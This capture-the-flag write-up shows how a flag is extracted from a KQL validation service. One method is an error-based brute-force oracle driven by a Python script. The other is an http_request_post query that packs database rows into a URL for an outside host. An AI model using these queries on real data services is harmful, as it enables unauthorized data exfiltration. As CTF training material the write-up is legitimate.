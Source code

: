 ## KQL VALIDATION SERVICE

### Solution

We start with a prompt we derived to solve the previous challenge:

```kql
search * | where * contains "$$" and * contains "}"
```

After some testing, we encounter an error message that can be exploited to reveal data:

```
Query execution has exceeded the allowed limits (80DA0003): The results of this query exceed the set limit of 500 records
```

We exploit the 500-row limit and use a loop that returns more than 501 rows if it manages to find the start of the flag in the database. `pack_all` combines all columns into one, and `toscalar` converts the first row into a string (we only have one row):

```kql
range n from 1 to toscalar(search * | where * contains "ept{" | count)*501 step 1
```

The error message appeared again this time, indicating that we can find the flag in this way. This can be scripted to brute force one letter at a time:

```python
import requests
import string

def brute(url, query, word):
    for i in range(50):
        for letter in string.digits + string.ascii_lowercase + "<>,./:*@'+-$_-?!}= ":
            # Use replace placeholder with payload
            query_to_run = query.replace("$$", word+letter)

            response = requests.post(url, headers={"content-type": "application/json"}, json={ "query": query_to_run})

            if response.status_code == 400:
                word += letter
                print(word)
                if(letter == "}"): return word
                break
            else:
                print(letter)

brute("https://_uniqueid_-kqlvalidation.ept.gg/validate_kql", 'range n from 1 to toscalar(search * | where * contains "$$" and * contains "}" | count)*501 step 1', "EPT{6x+jd$")
```

This is a theoretical solution that would work for short flags. Unfortunately, the flag turned out to be too long to solve in this way. This is because an internal delay has been added to the website, forcing the page to hold for at least 3 seconds before we get a response. The theoretical time it would take to find the flag this way is:

```python
possibilities = len(string.digits + string.ascii_lowercase + "<>,./:*@'+-$_-?!}= ") # Number of characters
time_pr_try = 3 # seconds per test
avg_time_pr_char = possibilities/2 * 3
flag_len = 188 - len("ept{" + "}") # (found the flag another way later, so we know the length)
total_time = flag_len * avg_time_pr_char
```

The total time would be 15097s or 4 hours 11 minutes.

And even then, we cannot guarantee that we are correct, because the search only matches lowercase letters. If it is not accepted by CTFd, we won’t get the correct answer.

## Solution 2

Another solution (which we assume is more as intended) is to take advantage of the fact that we have plugins to send HTTP requests. We know this because it is listed under `/cluster_policies` on the website.

Here, we can either set up a server to receive the request or craft a request that fails after we find the flag, so the flag is included in the error message.

First, we extract the row that contains the flag and turn it from a table entry into a string:

```kql
toscalar(search * | where * contains "ept{" and * contains "}" | project p = pack_all())
```

Then, we insert the string as a parameter in a request we know will fail:

```kql
evaluate http_request_post(
    strcat(
        "http://dum.my?", toscalar(search * | where * contains "ept{" and * contains "}" | project pack = pack_all())
    )
)
```

As we can see, the flag is returned in an error message, meaning we never need to send the request:

![alt text](image.png)

<details>
<summary>Flag</summary>

`EPT{6X+Jd$>this_is_A_v3ry_long_fl4g_d0nt_try_to_brute_force_itt=B+----J-P.=pEv'GvAJ$aFdyRia.ABjwgv_7'j7''FY*I'JI,z@K1dvPLE@>R9!6x3O4hYG_5!/HnD/gt_g::S9'IgD'5@vbBfAcUOrv'u<4O=$,'IE./=DY$RX}`
</details>